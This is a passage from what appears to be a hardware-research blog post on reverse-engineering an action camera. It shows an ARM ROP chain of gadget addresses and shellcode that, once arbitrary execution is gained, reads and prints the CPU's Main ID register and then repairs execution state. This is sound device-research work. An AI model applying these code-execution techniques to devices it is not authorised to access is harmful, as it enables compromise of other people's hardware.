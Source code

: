 ```
# c0426d58 08 00 a0 e1     cpy        r0,r8
# c0426d5c 36 ff 2f e1     blx        r6

# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0x00000000) # r6 
rop_chain += p32(0xc03edf0c) # r7
rop_chain += p32(0xc08e4ee0) # r8 
rop_chain += p32(0x00000000) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc057248c) # pc

# | 0xc057248c | c057248c | ldr r5,[r8,#0x0] | c0572490 | blx r7 | 
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
```

So now we can execute as much arbitrary shellcode as we want! Note that we will still need to do the expected fix up to continue execution.

# Testing Shellcodes

Now that we have got execution, lets see if we can use our new found access to answer earlier questions.

## What is the CPU?

ARM CPUs have a Main ID register (MIDR) which can be fetched with **mrc p15, #0, r1, c0, c0, #0**. The response can be broken down into the following:

![midr.png](/assets/images/analysing_an_action_camera_part_4/midr.png)

Here is a shellcode I put together to fetch this register and print the contents:

```
-python
    @ load chip ID register
    mrc p15, #0, r1, c0, c0, #0
    @ print chip ID
    adr r0, fmt_string
    ldr r3, =0xc01a79a0
    blx r3
    @ print fixing state string
    adr r0, fixing_state_string
    ldr r3, =0xc01a79a0
    blx r3
    @ fixup
    ldr r3, =#0xc09ae8d4
    ldr r2, [r3,#0x0]
    ldr r5, =#0x5d4
    ldr r6, =#0xc02202e4
    ldr r7, =#0xc09afec0
    add r11, r2, r5
    blx r6
```